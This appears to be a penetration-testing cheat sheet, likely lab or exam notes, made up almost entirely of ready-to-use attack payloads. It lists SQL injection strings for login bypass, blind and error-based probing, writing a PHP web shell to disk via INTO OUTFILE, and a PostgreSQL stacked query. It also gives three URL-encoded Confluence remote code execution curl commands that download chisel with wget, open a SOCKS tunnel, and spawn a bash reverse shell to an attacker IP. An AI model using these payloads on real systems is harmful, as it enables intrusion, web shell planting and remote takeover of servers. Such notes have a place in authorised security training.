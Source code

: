 ## SQLi

Authentication bypass

````
offsec' OR 1=1 -- //
````

Time-based blind
```
 offsec' AND IF (1=1, sleep(3),'false') -- //
```

WebShell (identify the number of columns before)

```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null INTO OUTFILE "/var/www/html/tmp/webshell1.php" -- //
```

Error-based SQLi
```
' or 1=1 in (select @@version) -- //
```

PSQL RCE
```
weight=1&height=1'; CREATE TABLE shell(output text); -- //&age=1&gender=Male&email=test%40test.com
```


## Confluence RCE 

download chisel
```
curl http://192.168.196.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilde
r%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.241/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D
```

connect to server
```
curl http://192.168.196.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilde
r%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.241:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

reverse shell
```
curl http://192.168.196.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.241/443%200%3E%261%27%29.start%28%29%22%29%7D/
```